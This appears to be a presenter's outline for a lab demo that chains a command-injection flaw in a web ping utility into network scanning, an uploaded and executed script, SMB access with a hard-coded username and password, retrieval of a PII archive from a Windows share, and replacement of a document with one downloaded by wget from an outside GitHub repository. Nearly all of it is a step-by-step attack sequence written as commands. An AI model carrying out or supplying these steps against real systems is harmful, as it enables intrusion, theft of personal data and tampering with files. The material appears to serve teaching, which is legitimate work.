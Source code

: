 Command Injection Demo:
=======================

Academic:
=========
    Dig through DNS
    Port scan IPs
    Interrogate IP
	HTTP Watch/Fiddler/Postman/Wireshark
	Headers can indicate the stack


Commands:
==========
    Login: wier credentials to connect.hackysock.com
    Browse site… Exploratory work
    Over to the ping utility
        note the command injection flaw.
	    whoami
	    pwd
	    cd ../../
	    ls
	    ifconfig -a | grep netmask
	    which nmap
	    nmap -sP 192.168.122.1/24
	    namp -p 135 192.168.122.7
	    smbclient -N '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3 -c ls
	
Find Upload section:
====================
    Upload file: Note the path description
	Figure out where uploads go
	Upload script
	CHMOD script
		chmod 775 ../../hackable/uploads/pull_scripts.sh
	Execute script
		../../hackable/uploads/pull_scripts.sh
	Show all the scripts that were pulled down from GitHub

Drop to Shell:
=================
Show rest of demo and malware deployment.\
	Execute pii script\
	Show pii data pulled from windows machine\
    Show Roger DOC\
        smbclient '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3\
    pull roger doc at CLI\
        smbclient '//192.168.122.7/Private_Files' -c 'lcd /var/tmp; get PII.zip' -W HACYSOC -U wier%frantic-Folly3\
    Push new DOC to FileShare
        smbclient '//192.168.122.7/c$' -W HACKYSOC -U wier%frantic-Folly3\
        Browse to Roger DOC in Private_Files\
        del rogeradamsCV.doc\
        exit\
        cd /var/tmp\
        wget https://github.com/rnewt6926/Ingram/blob/main/rogeradamsCV.doc
        smbclient '//192.168.122.7/Private_Files' -c 'lcd /var/tmp; put rogeradamsCV.doc' -W HACKYSOC -U wier%frantic-Folly3\






Wrap up:
========

Narrative